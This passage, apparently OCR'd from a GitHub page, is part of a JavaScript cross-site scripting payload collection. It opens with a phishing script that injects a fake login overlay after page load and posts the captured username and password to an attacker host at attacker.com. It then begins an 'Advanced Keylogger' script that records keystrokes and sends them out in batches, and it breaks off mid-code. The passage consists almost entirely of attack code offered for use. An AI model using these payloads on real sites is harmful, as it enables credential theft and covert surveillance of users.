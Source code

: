 ```javascript
            <form id="fakeLogin">
                <input type="text" placeholder="Username" id="fakeUser" style="width: 100%; margin: 5px 0; padding: 10px;">
                <input type="password" placeholder="Password" id="fakePass" style="width: 100%; margin: 5px 0; padding: 10px;">
                <button type="submit" style="width: 100%; padding: 10px; background: #007cba; color: white; border: none;">Login</button>
            </form>
        </div>
    `;
    
    document.body.appendChild(overlay);
    
    // Handle form submission
    document.getElementById('fakeLogin').addEventListener('submit', function(e) {
        e.preventDefault();
        var username = document.getElementById('fakeUser').value;
        var password = document.getElementById('fakePass').value;
        
        // Send credentials to attacker
        fetch('http://attacker.com/harvest.php', {
            method: 'POST',
            headers: {'Content-Type': 'application/json'},
            body: JSON.stringify({username: username, password: password})
        }).then(() => {
            overlay.remove();
            alert('Login failed. Please try again.');
        });
    });
}

// Execute after page loads
setTimeout(createFakeLogin, 2000);
</script>
```

### 3. 🔑 Keylogging

#### Advanced Keylogger
```javascript
// Comprehensive keylogger
<script>
var keylog = '';
var mouseLog = [];

// Capture keystrokes
document.addEventListener('keydown', function(e) {
    var key = e.key;
    var timestamp = new Date().toISOString();
    
    // Special keys
    if (key === 'Enter') key = '[ENTER]';
    else if (key === 'Tab') key = '[TAB]';
    else if (key === 'Backspace') key = '[BACKSPACE]';
    else if (key === ' ') key = '[SPACE]';
    
    keylog += key;
    
    // Send keylog every 50 characters or on Enter
    if (keylog.length > 50 || key === '[ENTER]') {
        sendKeylog();
    }
});
```